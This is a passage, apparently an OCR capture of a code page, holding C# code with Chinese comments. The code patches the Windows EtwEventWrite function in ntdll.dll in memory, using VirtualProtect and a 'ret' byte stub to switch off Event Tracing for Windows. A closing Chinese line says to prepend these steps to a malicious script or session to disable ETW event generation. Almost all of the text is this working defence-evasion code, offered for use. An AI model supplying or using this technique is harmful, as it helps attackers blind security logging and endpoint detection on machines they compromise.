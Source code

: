     // // 0. P/Invoke Win32 API functions (LoadLibrary, GetProcAddress, VirtualProtect, FlushInstructionCache)
    // public class Win32
    // {
    //     [DllImport("kernel32.dll", CharSet = CharSet.Unicode, SetLastError = true)]
    //     public static extern IntPtr LoadLibrary(string lpFileName);
    
    //     [DllImport("kernel32.dll", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
    //     public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    
    //     [DllImport("kernel32.dll", SetLastError = true)]
    //     public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    
    //     [DllImport("kernel32.dll", SetLastError = true)]
    //     public static extern bool FlushInstructionCache(IntPtr hProcess, IntPtr lpBaseAddress, UIntPtr dwSize);
    // }
    
    public static void PatchEtwEventWrite()
    {
        // 1. 获取 EtwEventWrite 的地址
        IntPtr hNtdll = Win32.LoadLibrary("ntdll.dll");
        if (hNtdll == IntPtr.Zero) { /* handle error */ return; }
        IntPtr pEtwEventWrite = Win32.GetProcAddress(hNtdll, "EtwEventWrite");
        if (pEtwEventWrite == IntPtr.Zero) { /* handle error, FreeLibrary(hNtdll); */ return; }
    
        // 补丁字节 (ret 0x14 for x86, or appropriate for x64 e.g., xor rax,rax; ret -> 48 31 C0 C3)
        // 原文用 { 0xc2, 0x14, 0x00 }，假设目标是 32 位或兼容模式
        byte[] patchBytes = new byte[] { 0xc2, 0x14, 0x00 }; 
        uint oldProtect;
    
        // 2. 修改内存权限
        if (!Win32.VirtualProtect(pEtwEventWrite, (UIntPtr)patchBytes.Length, 0x40 /*PAGE_EXECUTE_READWRITE*/, out oldProtect))
        {
            /* handle error, FreeLibrary(hNtdll); */ return;
        }
    
        // 3. 写入补丁字节
        Marshal.Copy(patchBytes, 0, pEtwEventWrite, patchBytes.Length);
    
        uint tempProtect; // Dummy variable for restoring protection
        // 4. (可选) 恢复内存权限
        Win32.VirtualProtect(pEtwEventWrite, (UIntPtr)patchBytes.Length, oldProtect, out tempProtect);
    
        // 5. (可选) 刷新指令缓存
        // IntPtr hCurrentProcess = Process.GetCurrentProcess().Handle; // Or Win32.GetCurrentProcess()
        // Win32.FlushInstructionCache(hCurrentProcess, pEtwEventWrite, (UIntPtr)patchBytes.Length);
    
        // FreeLibrary(hNtdll); // 通常不应释放 ntdll.dll
        Console.WriteLine("EtwEventWrite patched (hopefully).");
    }
    ```
    
    将这些步骤整合并附加到恶意脚本或会话的开头执行，可以在当前进程中有效地禁用 ETW 事件的生成。
